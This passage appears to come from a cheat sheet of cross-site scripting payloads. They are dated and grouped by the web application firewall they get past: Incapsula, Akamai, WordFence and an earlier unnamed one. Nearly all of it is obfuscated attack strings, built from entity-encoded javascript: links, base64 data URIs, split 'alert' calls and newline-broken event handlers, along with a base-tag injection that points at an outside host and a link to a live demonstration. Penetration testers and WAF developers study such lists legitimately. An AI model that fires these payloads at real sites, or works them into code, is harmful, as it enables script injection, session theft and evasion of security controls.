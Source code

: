 #### 27th February 2018

```html
<a href="j&Tab;a&Tab;v&Tab;asc&NewLine;ri&Tab;pt&colon;&lpar;a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;(document.domain)&rpar;">X</a>
```

#### 9th August 2018

```javascript
</script><svg><script>alert(1)-%26apos%3B
```

Live example by @brutelogic - [https://brutelogic.com.br/xss.php](https://brutelogic.com.br/xss.php?c1=</script><svg><script>alert(1)-%26apos%3B)

### Incapsula WAF Bypass

#### 8th March 2018

```javascript
anythinglr00</script><script>alert(document.domain)</script>uxldz

anythinglr00%3c%2fscript%3e%3cscript%3ealert(document.domain)%3c%2fscript%3euxldz
```

#### 11th September 2018

```javascript
<object data='data:text/html;;;;;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=='></object>
```

#### 11th May 2019

```html
<svg onload\r\n=$.globalEval("al"+"ert()");>
```

### Akamai WAF Bypass

#### 18th June 2018

```javascript
?"></script><base%20c%3D=href%3Dhttps:\mysite>
```

#### 28th October 2018

```html
<dETAILS%0aopen%0aonToGgle%0a=%0aa=prompt,a() x>
```

### WordFence WAF Bypass

#### 12th September 2018

```javascript
<a href=javas&#99;ript:alert(1)>
```
